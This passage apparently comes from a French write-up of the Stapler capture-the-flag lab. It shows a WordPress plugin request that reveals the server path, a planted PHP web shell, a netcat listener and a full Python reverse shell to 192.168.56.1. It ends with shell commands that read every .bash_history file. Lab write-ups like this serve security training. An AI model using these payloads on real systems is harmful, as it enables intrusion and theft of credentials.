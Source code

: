 Pour obtenir le path sur server web, il suffit de faire une requête échouant sur
le précedant exploit: \
[https://stapler:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=444444444444&short=rnd&term=rnd&thumb=test](https://stapler:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=4444444444444444&short=rnd&term=rnd&thumb=test)

On a donc un script php qui prend un paramètre GET "cmd" et qui exécute son
contenu en shell exec, on plante alors le reverse shell:

\pagebreak

- Ressource: [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Sur notre pc: `nc -lvvp 443` \

Sur le navigateur: \
[https://stapler:12380/blogblog/wp-content/uploads/shell.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.56.1%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27](https://stapler:12380/blogblog/wp-content/uploads/shell.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22192.168.56.1%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27)

On récupère alors un shell. Il ne reste plus qu'à faire l'élévation de priviliège comme précedemment:
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
cd /home
find -name ".bash_history" -exec cat {} \;
```
